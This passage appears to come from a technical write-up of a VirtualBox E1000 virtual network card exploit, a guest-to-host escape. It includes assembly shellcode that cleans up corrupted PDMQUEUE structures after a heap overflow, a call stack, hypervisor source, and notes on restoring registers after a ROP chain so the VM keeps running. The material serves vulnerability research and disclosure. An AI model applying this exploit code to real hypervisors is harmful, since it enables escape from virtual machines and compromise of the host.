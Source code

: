 ```asm
    ; After:    "E1000-Xmit" -> NULL

    ; Zero out the entire PDMQUEUE "Mouse_1" pointed by "E1000-Rcv"
    ; This was unnecessary on my testing machines but to be sure...
    mov rdi, [rbx]
    mov rax, 0x0
    mov rcx, 0xA0
    rep stosb

    ; NULL out a pointer to PDMQUEUE "E1000-Rcv" stored in "E1000-Xmit"
    ; because the first 8 bytes of "E1000-Rcv" (a pointer to "Mouse_1") 
    ; will be corrupted in MMHyperFree
    mov qword [rbx], 0x0

    ; Now the last PDMQUEUE is "E1000-Xmit" which will not be corrupted

    ret
```

When e1kHandleRxPacket is called a callstack is:

```
#0 e1kHandleRxPacket
#1 e1kTransmitFrame
#2 e1kXmitDesc
#3 e1kXmitPacket
#4 e1kXmitPending
#5 e1kR3NetworkDown_XmitPending
...
```

We'll jump right to e1kR3NetworkDown_XmitPending which does nothing more and returns to a hypervisor function.

```c
static DECLCALLBACK(void) e1kR3NetworkDown_XmitPending(PPDMINETWORKDOWN pInterface)
{
    PE1KSTATE pThis = RT_FROM_MEMBER(pInterface, E1KSTATE, INetworkDown);
    /* Resume suspended transmission */
    STATUS &= ~STATUS_TXOFF;
    e1kXmitPending(pThis, true /*fOnWorkerThread*/);
}
```

The shellcode adds 0x48 to RBP to make it as it should be in e1kR3NetworkDown_XmitPending. Next, the registers RBX, R12, R13, R14, R15 are taken from the stack because it's required by System V ABI to preserve it in a callee function. If they aren't, the hypervisor will crash because of invalid pointers in them.

It could be enough because the virtual machine isn't crashing anymore and continues to execute. But there will an access violation in PDMR3QueueDestroyDevice function when the VM is shutdown. The reason is that when the heap is overflowed an important structure PDMQUEUE is overwritten. Furthermore, it's overwritten by the last two ROP gadgets i.e. the last 16 bytes. I tried to reduce the ROP chain size and failed, but when I replaced the data manually, the hypervisor was still crashing. It meant the obstacle is not as obvious as seemed.
